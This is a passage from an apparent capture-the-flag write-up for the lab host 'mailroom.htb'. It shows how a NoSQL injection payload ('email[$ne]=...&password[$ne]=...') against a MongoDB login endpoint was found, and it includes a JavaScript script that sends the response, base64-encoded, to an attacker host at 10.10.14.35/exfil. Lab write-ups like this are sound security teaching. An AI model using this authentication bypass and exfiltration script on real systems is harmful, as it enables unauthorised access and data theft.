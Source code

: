 ```bash
```

Based on this, we know

-   the `/auth.php` endpoint accepts a POST request
-   the content type is, `application/x-www-form-urlencoded`
-   this will return JSON data

```js
fetch('/auth.php', {
        method: 'POST',
        body: new URLSearchParams(new FormData(form)),
        headers: { 'Content-Type': 'application/x-www-form-urlencoded' }
      }).then(response => {
        return response.json();
```

Investigating the new `/auth.php` endpoint based on this new info. Given that the endpoint is related to authentication and the database is MongoDB, it's possible that it might be susceptible to NoSQL injection.

### Exploiting NoSQLi

Modified the previous script to conduct a test for NoSQLi. The main payload here is `email[$ne]=abraxas&password[$ne]=abraxas`. Given the extremely remote possibility of an existing user with these credentials, a positive response from this query will confirm NoSQL injection.

_nosqli.js_

```js
// var formData = "email[$exists]=true&password[$exists]=true";
var formData = "email[$ne]=abraxas&password[$ne]=abraxas";
fetch("http://staff-review-panel.mailroom.htb/auth.php", {
    method: "POST",
    body: formData,
    headers: {
        "Content-Type": "application/x-www-form-urlencoded",
    },
})
    .then((response) => {
        return response.text();
    })
    .then((text) => {
        console.log(text); // Log the response content to the console
        return fetch(
            `http://10.10.14.35/exfil?data=${btoa(
                unescape(encodeURIComponent(text))
            )}`
        );
    })
    .catch((error) => {
        console.error("Error:", error);
    });
```
